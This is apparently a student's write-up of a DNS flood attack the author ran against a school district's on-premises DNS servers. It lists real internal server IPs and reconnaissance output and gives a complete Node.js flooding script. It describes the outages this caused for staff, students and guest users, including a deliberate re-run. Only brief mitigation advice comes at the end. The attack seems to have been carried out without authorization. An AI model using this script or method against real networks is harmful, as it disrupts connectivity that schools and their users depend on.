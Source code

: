 ```yaml
---
title: DNS Flood Writeup
date: 2025-04-22
---
```

*some experiment i tried in my school--this issue is now patched!!!*

# Introduction

A DNS flood is a attack that involves sending multiple requests to a DNS server, preventing legitimate clients from querying the server and indirectly, accessing the internet.

# Structure

BCPS uses a Palo Alto filter on the network. But, when you check the DHCP assigned DNS servers, you get something drastically different.

```bash
scutil --dns | grep 'nameserver\[[0-9]*\]'
```

```
  nameserver[0] : 10.149.0.29
  nameserver[1] : 10.9.0.76
```

These are 2 local IP’s, implying a on-prem solution.

Another thing to note is that the network search domain is `bcps.org`, which is the district’s official website. **This is important.**

```bash
scutil --dns | grep 'search domain'
```

```
search domain[0] : bcps.org
```

This domain resolves to a CF public IP using a public DNS resolver such as 8.8.8.8:

```
Server:		8.8.8.8
Address:	8.8.8.8#53

Non-authoritative answer:
Name:	bcps.org
Address: 162.159.135.49
Name:	bcps.org
Address: 162.159.136.49
```

Running it on a BCPS DNS server on the network yields a couple local IPs:

![image.png](00-img1.png)

These are all local IPs. Running nmap on these IPs yield a distinct port fingerprint:

![image.png](00-img2.png)

These are probably backup DNS servers, or are used across other parts of the district.

# Method

As the DNS server is a local IP, it can be deduced that it is a on-premises server. [`bcps.org`](http://bcps.org) is possibly fetched from this server instead of being forwarded to PA upstream.

The attack was an amplified `ALL` query for [`bcps.org`](http://bcps.org) to the 2 DNS servers.

## Setup

A script was ran 8-9 times concurrently on an Apple Macbook Air (M2) on MacOS 15.4. Running it upwards of 15 times causes the device to get booted off the network, but it could also be the network buckling under stress. Further research is required for this.

```jsx
import dns from "node:dns/promises"
import net from "node:net";

const dnsServers = dns.getServers();
// avoid preference
for (const server of dnsServers) {
  for (let i = 0; i < 1_000; i++) {
    setInterval(async () => {
	    // used to prevent socket exhaustion
      const socket = new net.Socket();
      socket.setTimeout(1000);
      socket.on('error', () => socket.destroy());
      socket.on('timeout', () => socket.destroy());

      socket.connect(53, server, async () => {
        socket.destroy();
        dns.setServers([server]);
        await dns.resolve("bcps.org", "ANY").catch(console.error);
        console.log("attempt ", i);
      });
    });
  }
}
```

# Effects

Nothing was felt immediately. The dns queries were going normal with no logged errors, but soon after, the queries started to slow down and hang, and connections were being refused and timeouted:

![image.png](00-img3.png)

A separate BCPS issued Chromebook was used to test DNS resolving, with the cache cleared. Websites were loading slowly, and then suddenly loaded. Wi-Fi was also suddenly dropping off on some devices and they had issues connecting. The attack was later stopped. Soon after, Wi-Fi started dropping out and websites were loading slow. Google Speedtest logged 50/up and 30/down, which is a 50% reduction from the normal 100/100 speed.

The internet started to recover ~5min after the slow network notification. To make sure this was due to the attack, it was started again, and the connection started dropping off. Devices were not receiving IPs, meaning that the IP might have a connection to the DHCP server or router.

Websites were not resolving and many devices had “No internet.”

When the attack was paused later on, staff devices started regaining internet connection in the span of 5min.

At one point, during a later run of ~15 instances, the access point completely disconnected and made it’s own network, and the test device switched to a 169.xx IP.

![SCR-20250422-ihbv.png](00-img4.png)

![Screenshot 2025-04-22 at 09.46.53.jpg](00-img5.jpg)

Users of BCPS-Guest also reported disruptions.

# Possible solutions

The load on the DNS server can be reduced by implementing a simple rate limit per client.

Core network components should also be isolated to prevent a total failure, and reduce load.
